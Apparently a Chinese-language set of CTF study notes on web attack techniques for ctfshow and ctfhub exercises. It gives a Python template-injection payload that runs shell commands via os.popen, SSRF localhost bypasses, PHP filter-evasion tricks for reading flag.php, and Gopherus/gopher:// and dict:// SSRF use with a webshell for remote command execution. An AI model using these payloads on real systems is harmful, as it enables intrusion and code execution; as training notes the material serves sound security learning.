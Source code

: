 实现了 二次注入

#### SSTI的 printer方法

这里只是记录一下 这个方法也可以实现注入

格式为下面的

```handlebars
{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()}}
```

#### SSRF ctfshow内容

主要是 sudo.cc 表示 127.0.0.1

127.1 表示127.0.0.1

#### 无回显rce localeconv()  array_reverse()   session_start()

因为过滤了 __ dir

无法使用以前的 print_r(__FILE__)

这里可以通过 localeconv() 返回当前目录中的 .

然后通过指定 . 使用 current(localeconv())

print_r(current(localeconv)) 就类似于 print_r('.')

会回显当前

array_reverse 让数组倒序输出

这里还可以使用 session_start(session_id) 开启session然后通过 session 传递 flag.php  
所以直接

```scss
print_r(session_start(session_id))
 
Cookie: PHPSESSID=flag.php
```

即可

#### SSRF ctfhub内容

打中间件直接使用 **gopherus** 

```cobol
git clone https://github.com/tarunkant/Gopherus.git
```

通过 工具生成payload然后 进行一次 url编码 即可

通过蚁剑链接 实现rce

可以通过

dict://127.0.0.1:xx 扫描端口 发现服务

gopher:// 可以伪造请求包 发送请求
